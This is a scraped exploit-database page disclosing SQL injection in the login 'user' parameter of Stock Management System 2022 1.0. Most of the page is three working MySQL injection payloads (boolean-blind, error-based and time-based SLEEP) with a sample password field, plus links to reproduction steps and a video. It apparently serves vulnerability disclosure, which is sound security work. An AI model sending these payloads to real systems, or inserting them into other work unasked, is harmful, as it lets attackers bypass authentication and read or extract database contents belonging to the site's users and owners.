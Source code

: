 ```yaml
---
title: Stock Management System 2022 1.0 From Erick Cesar SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:170328&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-12-24
fetch_date: 2025-10-04T02:24:00.706033
---
```


# Stock Management System 2022 1.0 From Erick Cesar SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Stock Management System 2022 1.0 From Erick Cesar SQL Injection

2022-12-23 | CVSS 0.2

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:170328
## Title: Stock-Management-System-2022-1.0-from-Erick-Cesar Multiple SQLi
## Author: nu11secur1ty
## Date: 12.22.2022
## Vendor: https://github.com/rickxy/Stock-Management-System
## Software: https://github.com/rickxy/Stock-Management-System
## Reference: https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/rickxy/2022/Stock-Management-System-1.0

## Description:
The `user` parameter appears to be vulnerable to SQL injection attacks.
The payload ' was submitted in the user parameter, and a database
error message was returned.
The attacker can still all information for the system by using this
vulnerability.

## STATUS: HIGH Vulnerability - CRITICAL

[+] Payload:

```MySQL
---
Parameter: user (POST)
Type: boolean-based blind
Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY
or GROUP BY clause
Payload: user=bqxDgfIK' RLIKE (SELECT (CASE WHEN (8457=8457) THEN
0x627178446766494b ELSE 0x28 END)) AND
'BTvs'='BTvs&password=s9U!o7d!C0&btnlogin=

Type: error-based
Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or
GROUP BY clause (FLOOR)
Payload: user=bqxDgfIK' AND (SELECT 5004 FROM(SELECT
COUNT(*),CONCAT(0x7178767071,(SELECT
(ELT(5004=5004,1))),0x7171707a71,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND
'aQfu'='aQfu&password=s9U!o7d!C0&btnlogin=

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: user=bqxDgfIK' AND (SELECT 8137 FROM
(SELECT(SLEEP(7)))nCyy) AND 'vQsi'='vQsi&password=s9U!o7d!C0&btnlogin=
---
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/rickxy/2022/Stock-Management-System-1.0)

## Proof and Exploit:
[href](https://streamable.com/gg7pyf)

## Time spent
`00:05:00`

## Writing an exploit
`00:05:00`
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
